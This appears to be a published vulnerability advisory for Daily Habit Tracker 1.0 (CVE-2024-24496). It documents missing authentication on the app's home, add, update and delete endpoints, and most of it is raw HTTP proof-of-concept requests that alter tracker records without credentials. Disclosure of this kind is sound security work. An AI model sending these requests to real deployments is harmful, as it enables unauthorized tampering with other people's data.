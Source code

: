 # Exploit Title: Daily Habit Tracker 1.0 - Broken Access Control
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17118/daily-habit-tracker-using-php-and-mysql-source-code.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24496

### Broken Access Control:

> Broken Access Control is a security vulnerability arising when a web application inadequately restricts user access to specific resources and functions. It involves ensuring users are authorized only for the resources and functionalities intended for them.

### Affected Components:

> home.php, add-tracker.php, delete-tracker.php, update-tracker.php

### Description:

> Broken access control enables unauthenticated attackers to access the home page and to create, update, or delete trackers without providing credentials.

## Proof of Concept:

### Unauthenticated Access to Home page

> To bypass authentication, navigate to 'http://yourwebsitehere.com/home.php'. The application does not verify whether the user is authenticated or authorized to access this page.

### Create Tracker as Unauthenticated User

To create a tracker, use the following request:

```
POST /habit-tracker/endpoint/add-tracker.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/habit-tracker/home.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

date=1443-01-02&day=Monday&exercise=Yes&pray=Yes&read_book=Yes&vitamins=Yes&laundry=Yes&alcohol=Yes&meat=Yes
```

### Update Tracker as Unauthenticated User

To update a tracker, use the following request:

```
POST /habit-tracker/endpoint/update-tracker.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/habit-tracker/home.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

tbl_tracker_id=5&date=1443-01-02&day=Monday&exercise=No&pray=Yes&read_book=No&vitamins=Yes&laundry=No&alcohol=No&meat=Yes
```

### Delete Tracker as Unauthenticated User:

To delete a tracker, use the following request:

```
GET /habit-tracker/endpoint/delete-tracker.php?tracker=5 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Referer: http://localhost/habit-tracker/home.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

## Recommendations

When using this tracking system, it is essential to update the application code to ensure that proper access controls are in place.